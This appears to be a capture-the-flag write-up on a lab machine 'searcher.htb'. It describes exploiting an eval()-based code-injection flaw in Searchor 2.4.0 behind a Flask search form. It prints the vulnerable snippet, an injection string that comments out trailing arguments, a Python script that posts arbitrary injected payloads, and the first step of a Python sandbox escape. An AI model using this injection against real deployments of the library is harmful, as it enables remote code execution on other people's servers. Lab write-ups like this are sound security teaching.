Looking at the index page, the website provides a form that can be used to search for specific results on different engines. The footer of the page provides useful information about the libraries used: Flask and Searchor 2.4.0.
If the form is compiled (without flagging the automatic redirect option) we will be prompted with the corresponding search query. 
After a quick search I found that such Searchor version is affected by an Arbitrary Code Execution vulnerability which was then fixed in version 2.4.2. The vulnerability is due to the usage of the `eval()` function in the library. This function receives a string as input and can be used to execute custom shell commands. Based on the observed behavior of the website, the string input in the form is used as input to the `search()` function (the vulnerable one to RCE). The vulnerable snippet of code is:
```python
url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```
Here, if we manage to craft an input query as `a') #` we would remove the copy and open parameters from the function. Now that we know that we can manipulate the second part of the string argument to the eval function, we just need to figure out a way to inject custom commands. To do that we need to escape from Python sandboxes. First of all, we want to get the list of the existing packages available, however, we cannot continue making such requests through browser since the rendering performed by the browser will hide some useful information (`<class ...>` are interpreted as html component and thus not printed). So, I wrote a simple script to send the request and print the result:
```python
import requests

url = 'http://searcher.htb/search'

while True:
	payload = input("$ ")
	data = {
		"engine": "Google",
		"query": "aaa'){} #".format(payload)
	}

	res = requests.post(url, data = data)
	print(res.text)
```

# Foothold 
Now, using this tool I first listed all the available python modules that exists, looking for something to be used to gain a shell access or some file I/O capability:
```bash
$ .__class__.__base__.__subclasses__()

```